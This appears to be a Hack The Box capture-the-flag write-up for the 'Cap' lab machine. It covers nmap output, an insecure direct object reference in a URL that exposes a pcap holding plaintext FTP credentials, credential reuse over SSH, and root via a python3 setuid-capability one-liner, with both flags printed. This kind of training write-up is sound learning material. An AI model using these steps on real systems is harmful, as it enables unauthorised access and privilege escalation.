







What we can learn from this machine
* Enumeration
* Python3 Capabilities
* Wireshark

Always start with nmap scan. Let's see what we got in machine.
```
# Nmap 7.91 scan initiated Thu Jun 10 11:37:56 2021 as: nmap -sC -sV -oN Scans/nmap-output 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.15s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:20:18 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:20:12 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Thu, 10 Jun 2021 06:20:13 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: OPTIONS, GET, HEAD
|     Content-Length: 0
|   RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jun 10 11:40:21 2021 -- 1 IP address (1 host up) scanned in 145.03 seconds
```
Looks like we got port 21 ftp, 22 ssh, 80 http are open. Let's see what in the webpage.



After sometime poking around I found this.



When you first click It's no records shows us but we change the url bit forward. Like /data/5 -> /data/4 . You can see it changes but no changes yet. When I change into **/data/0** it gives me some captures. 


After we download that pcap file. You can open it on wireshark and do look around. When I was looking I found this on **tcp stream eq 1**.



Looks he need enter the password. Let's see what we got in other packets maybe we can find our password among them. After some time in **tcp stream eq 3** I found the password and username.



Let's login to the FTP port let's its working or not.

```bash
┌─[visith@parrot]─[~/CTF/htb/cap]
└──╼ $ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:visith): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rwxr-xr-x    1 1001     1001       341117 Jun 10 05:54 linpeas.sh
drwxr-xr-x    3 1001     1001         4096 Jun 10 05:54 snap
-r--------    1 1001     1001           33 Jun 10 04:51 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (685.6715 kB/s)
ftp> exit
221 Goodbye.
```
We got our user key but we cant get to root through ftp let's try that **SSH** port with same credentials. 

```bash
─[✗]─[visith@parrot]─[~/CTF/htb/cap]
└──╼ $ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ECDSA key fingerprint is SHA256:8TaASv/TRhdOSeq3woLxOcKrIOtDhrZJVrrE0WbzjSc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ECDSA) to the list of known hosts.
nathan@10.10.10.245's password: 
Last login: Thu Jun 10 05:53:09 2021 from 10.10.14.76
nathan@cap:~$ ls -la
total 372
drwxr-xr-x 5 nathan nathan   4096 Jun 10 05:55 .
drwxr-xr-x 3 root   root     4096 May 23 19:17 ..
lrwxrwxrwx 1 root   root        9 May 15 21:40 .bash_history -> /dev/null
-rw-r--r-- 1 nathan nathan    220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 nathan nathan   3771 Feb 25  2020 .bashrc
drwx------ 2 nathan nathan   4096 May 23 19:17 .cache
drwx------ 4 nathan nathan   4096 Jun 10 06:38 .gnupg
-rw-r--r-- 1 nathan nathan    807 Feb 25  2020 .profile
lrwxrwxrwx 1 root   root        9 May 27 09:16 .viminfo -> /dev/null
-rwxr-xr-x 1 nathan nathan 341117 Jun 10 05:54 linpeas.sh
drwxr-xr-x 3 nathan nathan   4096 Jun 10 05:54 snap
-r-------- 1 nathan nathan     33 Jun 10 04:51 user.txt
nathan@cap:~$ cat user.txt
ecae44311783c50b26a5691bf7bc687e
```
Here also you can get the user flag. I try to run **sudo -l** but we can't run sudo in here. Let's run the linpeas.sh. 
```bash
nathan@cap:~$ sudo -l
[sudo] password for nathan: 
Sorry, user nathan may not run sudo on cap.
nathan@cap:~$ ./linpeas.sh
```
In linpeas output we can see this under the capabilities.



Python3 can give us root. After searching in **GTFObins** I find this.



We have python3 we need to change the python version of our script. Like this :
```bash
./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
After we execute this script *usr/bin* directory. We can get our shell to root. 

```bash
nathan@cap:/usr/bin$ ./python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# /usr/bin/script -qc /bin/bash /dev/null
root@cap:/usr/bin# cd /root
root@cap:/root# ls
root.txt  snap
root@cap:/root# cat root.txt
3de419c148d30fbff7975629a16e486e
root@cap:/root#
```
Thx for reading !!

